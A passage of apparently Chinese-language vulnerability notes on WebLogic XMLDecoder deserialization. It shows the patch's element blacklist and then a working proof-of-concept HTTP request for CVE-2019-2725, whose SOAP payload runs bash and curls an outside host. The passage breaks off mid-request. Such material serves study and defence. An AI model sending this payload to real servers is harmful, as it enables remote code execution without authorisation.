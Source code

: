 ```
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }
```
限制了object、new、method且viod只能使用index属性,array的class属性只能为byte


#### cve-2019-2725
##### 漏洞原因
未限制class
##### poc

> weblogic12

```
POST /wls-wsat/CoordinatorPortType11;/../x HTTP/1.1
Content-Type: text/xml
SOAPAction: ""
Content-Length: 824
Host: 192.168.132.131
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <class><string>org.slf4j.ext.EventData</string><void><string>
<![CDATA[
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>curl http://192.168.132.1/ReadMe.txt</string>
</void>
</array>
<void method="start"/></void>
]]>
</string></void></class>
    </work:WorkContext>
```